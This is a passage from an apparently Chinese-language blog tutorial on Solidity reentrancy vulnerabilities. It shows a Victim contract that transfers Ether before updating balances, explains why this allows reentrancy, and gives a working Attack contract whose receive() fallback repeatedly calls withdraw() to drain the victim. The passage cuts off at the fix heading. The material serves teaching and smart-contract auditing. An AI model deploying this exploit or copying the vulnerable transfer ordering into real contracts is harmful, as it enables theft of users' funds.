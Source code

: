 ```cpp

        // 调用call函数进行转账，将msg.sender的余额全部转到msg.sender账户里。这里有重入风险。
        (bool success,) = msg.sender.call{value: balance}("");

        require(success, "Failed to send Ether"); // 要求call调用成功，才继续执行
        balanceOf[msg.sender] = 0; // 更新余额
    }

    // 获取合约本身的余额
    function getBalanceOfContract() external view returns (uint256) {
        return address(this).balance;
    }
}
```

重入漏洞大多数发生在转账的业务场景里面，转账分为两种情况：一种是向EOA账户转账，一种是向合约转账，在合约转账的情况下会默认调用接受者的fallback函数。

这里的示例能被重入攻击的原因是有2个前提：

- 使用call.value转账，会发送全部gas，为重入循环转账提供了条件
- 账本的改变在实际转账后

#### POC合约

```cpp
contract Attack {
    Victim public victim;

    constructor(Victim _victim) {
        victim = _victim;
    }

    // 回调函数，用于重入攻击Victim合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (victim.getBalanceOfContract() >= 1 ether) {
            victim.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function beginAttack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        victim.deposit{value: 1 ether}();
        victim.withdraw();
    }
}
```

攻击调用栈：

![Untitled](/images/posts/blockchain/reentrancy_1.png)

### 漏洞修复建议
